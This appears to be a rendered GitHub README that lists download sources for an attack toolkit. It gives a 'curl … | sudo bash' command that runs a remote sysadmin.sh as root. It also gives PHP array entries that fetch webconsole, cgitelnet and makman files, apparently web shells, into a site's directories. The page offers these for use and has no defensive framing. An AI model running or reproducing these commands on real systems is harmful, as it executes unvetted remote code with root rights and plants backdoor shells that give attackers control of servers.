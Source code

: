# curl | bash
## $name == "sysadmin.sh"
```bash
curl https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/sysadmin.sh | sudo bash
```
## $name == "webconsole"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/webcon", "webconsole.php");
```
&nbsp;
&nbsp;
## $name == "cgitelnet1"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi1", "idx_cgi/cgitelnet1.idx");
```
&nbsp;
&nbsp;
## $name == "cgitelnet2"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi2", "idx_cgi/cgitelnet2.idx");
```
&nbsp;
&nbsp;
## $name == "LRE"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/makman", "makman.php");
```
